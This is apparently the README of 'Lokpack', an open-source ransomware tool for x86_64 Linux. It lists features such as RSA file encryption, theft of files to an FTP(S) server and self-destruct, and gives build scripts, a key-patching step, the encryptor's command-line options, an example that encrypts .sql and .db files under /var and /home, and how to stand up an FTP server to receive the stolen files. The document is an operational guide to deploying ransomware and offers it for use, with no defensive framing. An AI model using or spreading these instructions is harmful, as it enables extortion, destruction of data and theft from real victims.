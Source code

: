 # Lokpack | Ransomware tooling for x84_64 Linux
Lokpack is a free (as in freedom) and open source ransomware 
tool targeting x86_64 Linux systems, written in C.

![showcase](https://github.com/ngn13/lokpack/assets/78868991/d1d8e490-b7d3-4f21-aeca-368eb0a0a0d8)

## Features
- Build static encryption and decrypiton tools
- Steal files using a FTP(S) server
- Specify custom target paths
- Uncrackable RSA asymmetric encryption
- Multi-threaded (a.k.a. fast)

## Installation

### Binary builds
You can download the latest release archive, which contains a static build
of the encryptor and the decryptor, **without SSL/TLS** support. After downloading
and extracting the archive, run the `patch.py` script to replace the private/public keys:
```bash
# make sure you have pycryptodome installed
python3 patch.py
```

### From the source
Required libraries/tools are:
- A (x86_64) Linux system
- gcc and other build tools
- curl (and headers)
- openssl (and headers)

> [!WARNING]
> Do NOT build from the latest commit, check out the latest tag
> or download the [latest release](https://github.com/ngn13/lokpack/releases).

To generate static builds, you will need static libraries of curl and openssl,
**if your distro does not package these**, you can build them yourself or use the automated
build scripts:
```bash
./scripts/openssl.sh
./scripts/curl.sh
```
**Note that automated script for curl does not support SSL/TLS connections**.

After building the static libraries, use the build script to create build with a random key:
```bash
./scripts/build.sh -static
```
This should create the `encryptor` and the `decryptor` binares at `dist/`.

## Usage
After transfering `encryptor` to the target system, you can specify custom options:
```bash
$ ./encryptor --help
[*] Listing available options:
    --threads  => Thread count for the thread pool
    --paths    => Paths to look for files
    --exts     => Valid extensions for files
    --ftp-url  => Address for the FTP(S) server
    --ftp-user => FTP(S) username
    --ftp-pwd  => FTP(S) password
    --no-ftp   => Disable stealing files with FTP(S)
    --destruct => Self destruct the program
```

For example to encrypt `.sql` and `.db` files located at `/var` and `/home` without FTP using 100 threads:
```bash
./encryptor --threads=100 --paths=/var,/home --exts=sql,db --no-ftp
```
If you want to encrypt all files with all extensions, set `--exts` to `ALL`.

Decryptor does not have any options, but can specify the target directory, by default it searches the entire file system (`/`):
```bash
./decryptor /var
```

### Setting up FTP(S)
For an actual FTP(S) setup you should install a FTP daemon such as `vsftpd` or `bftpd`. But for testing you can 
use `pyftpdlib`:
```bash
# username and password are 'anonymous' 
# which is default for the encryptor
python3 -m pyftpdlib -w
# -w for write access
```

## Resources
- [C-Thread-Pool](https://github.com/Pithikos/C-Thread-Pool)
- [CURL ftpupload](https://curl.se/libcurl/c/ftpupload.html)
- [CURL options](https://curl.se/libcurl/c/easy_setopt_options.html)
- [OpenSSL RSA Demo](https://github.com/openssl/openssl/blob/master/demos/encrypt/rsa_encrypt.c)
